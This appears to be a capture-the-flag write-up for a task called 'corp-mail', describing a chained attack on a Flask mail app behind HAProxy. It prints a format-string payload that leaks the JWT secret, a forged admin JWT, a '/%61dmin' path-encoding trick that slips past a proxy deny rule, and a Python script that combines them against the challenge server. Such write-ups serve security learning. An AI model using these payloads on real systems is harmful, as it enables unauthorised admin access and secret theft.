




# C2C CTF Task : corp-mail

### Introduction 



> Looking at the provided files, I noticed the app uses a classic combination: an HAProxy reverse proxy sitting in front of a Flask (Werkzeug) backend. The goal was to access the restricted admin area (specifically email #5 where the flag was seeded) , but the HAProxy config had a strict rule blocking it: `http-request deny if { path -i -m beg /admin }`. Furthermore, the app relied on a randomly generated `JWT_SECRET` for authentication



### Format String Flaw



> I poked around the application logic and found a critical flaw in `utils.py`. The `format_signature` function carelessly passed the `current_app` object directly into a string `.format()` method. Since I could edit my own email signature in the account settings, I simply set my signature to {app.config[JWT_SECRET]}. When I saved and reloaded, it leaked the server's master JWT secret directly to the screen

### Forging the Admin Token

> With the master secret leaked, the JWT protection was completely broken. I knew from looking at the application code that the admin account had a `user_id` of 1. I used the leaked 64-character secret to cryptographically forge my own JWT payload containing `"user_id": 1`, `"username": "admin"`, and `"is_admin": 1`

```json
{
  "user_id": 1,
  "username": "admin",
  "is_admin": 1,
  "exp": 9999999999
}
```

### The Path Normalization Trick

> Even with an admin token, HAProxy was still guarding the front door against literal `/admin` requests. However, I realized HAProxy reads the raw URL string, while Werkzeug automatically URL-decodes paths before routing them. By simply URL-encoding the 'a' and requesting `/%61dmin/email/5`, HAProxy didn't recognize the blocked word and let it pass. Flask then kindly decoded it back to `/admin` and granted access to the email.

### Script

> To execute this efficiently on the live remote instance, I manually registered an account to leak the remote server's specific secret. Then, I used a Python script to automatically generate the forged cookie, bypass the proxy using the `%61dmin` trick, and scrape the flag directly from the response

```py
import jwt
import datetime
import http.client

HOST = "challenges.1pc.tf"
PORT = 20244
SECRET = "PASTE_THE_REMOTE_SECRET_HERE"

payload = {
    "user_id": 1,
    "username": "admin",
    "is_admin": 1,
    "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(days=365)
}

token = jwt.encode(payload, SECRET, algorithm="HS256")

conn = http.client.HTTPConnection(HOST, PORT)
conn.request("GET", "/%61dmin/email/5", headers={"Cookie": f"token={token}"})
res = conn.getresponse()
html = res.read().decode(errors="ignore")

for line in html.split("\n"):
    if "Access Code:" in line or "C2C{" in line:
        print(line.strip().replace("<p>", "").replace("</p>", "").replace("<br>", ""))

conn.close()
```
**NOTE** : Due to Server having Error, I can't get the flag nor display the web interface instruction to forge token to bypass. So just change port and token, you will get the flag

